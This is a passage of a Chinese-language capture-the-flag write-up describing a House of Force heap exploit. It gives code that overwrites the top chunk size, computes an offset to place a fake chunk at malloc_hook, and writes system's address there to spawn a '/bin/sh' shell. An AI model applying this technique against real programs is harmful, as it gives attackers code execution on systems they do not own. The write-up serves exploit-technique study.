 ```plain
top_chunk_addr=add(0x10,'a'*0x10+b'/bin/sh\x00'+p64(0xffffffffffffffff))+0x10
leak('top_chunk_addr',top_chunk_addr)
```

这里写入 /bin/sh\\x00 是因为后面用 og 和 realloc 调不成功，所以用 system 打，这里因为有堆地址，直接申请堆地址就能执行 system('/bin/sh\\x00') \[因为没有对申请的 size 限制，所以可以这样打\]  
修改了 top chunk 的 size  
下面为了好分析，还是关掉 ASLR

[![](assets/1701612371-fc0561f7361dd09943bfcf0a8696b585.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701145816-a73e09be-17dc-1.png)

[![](assets/1701612371-75fc06ceca0161c19d5758eb8eeaebf6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701145821-aaae3fec-17dc-1.png)  
原本的 top chunk 地址加上实际上要分配的大小等于新的 top chunk 地址  
所以 offset=fake\_addr-0x10-0x10-top\_chunk\_addr  
offset=(malloc\_hook-0x20)-top\_chunk\_addr  
申请一下对应偏移的 chunk 就可以把 top\_chunk 扩展到 fake\_chunk 了  
然后直接申请后打就行了

```plain
add(offset,'kkk')
add(0x10,p64(system))
```

[![](assets/1701612371-3a339149860a645ddee1f201bca15576.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701145844-b86d1d1a-17dc-1.png)
